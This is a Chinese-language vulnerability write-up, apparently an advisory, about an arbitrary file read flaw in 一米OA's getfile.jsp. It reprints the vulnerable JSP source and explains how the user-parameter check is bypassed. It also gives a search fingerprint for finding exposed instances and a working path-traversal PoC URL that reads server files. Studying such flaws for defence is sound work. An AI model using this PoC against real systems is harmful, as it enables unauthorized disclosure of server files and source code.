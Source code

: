 # 一米OA getfile.jsp 任意文件读取漏洞

# 一米OA getfile.jsp 任意文件读取漏洞

## 漏洞描述

一米OA getfile.jsp文件过滤不足，导致任意文件读取漏洞

## 漏洞影响

```
一米OA
```

## 网络测绘

```
app="一米OA"
```

## 漏洞复现

产品页面

![image-20220520132327152](/images/202205201323308.png)

出现漏洞的文件

```
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
    String user = ParamUtil.get(request, "user");
    if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }

    String filename = ParamUtil.get(request, "filename");
    String extname = request.getParameter("extname");
    String prop = request.getParameter("prop");
    if (filename == null) {
        System.out.println("缺少文件名！");
        return;
    }

    filename = filename + "." + extname;

    Config cfg = new Config();
    String noticefilepath;
    if ("activex".equals(prop)) {
        noticefilepath = prop;
    } else {
        noticefilepath = cfg.get(prop);
    }

    String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }

    response.setContentType("application/" + extname);
    response.setHeader("Content-disposition", "attachment; filename=" + filename);

    BufferedInputStream bis = null;
    BufferedOutputStream bos = null;

    try {
        bis = new BufferedInputStream(new FileInputStream(filePath));
        bos = new BufferedOutputStream(response.getOutputStream());

        byte[] buff = new byte[2048];
        int bytesRead;

        while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
            bos.write(buff, 0, bytesRead);
        }

    } catch (final IOException e) {
        System.out.println("出现IOException." + e);
    } finally {
        if (bis != null)
            bis.close();
        if (bos != null)
            bos.close();
    }

    out.clear();
    out = pageContext.pushBody();
%>
```

首先验证 user 传参是否为空, 需要对 user 参数任意赋值

```
if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }
```

接着接受3个参数 `filename, extname, prop`

```
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
```

接着判断 prop 是否为 activex, 不等于则会去调用系统默认配置的路径 所以filename和extname这两个参数我们可以控制。构造请求前台任意文件读取

```
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }
```

验证POC

```
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp 
```

![image-20220520132344272](/images/202205201323352.png)

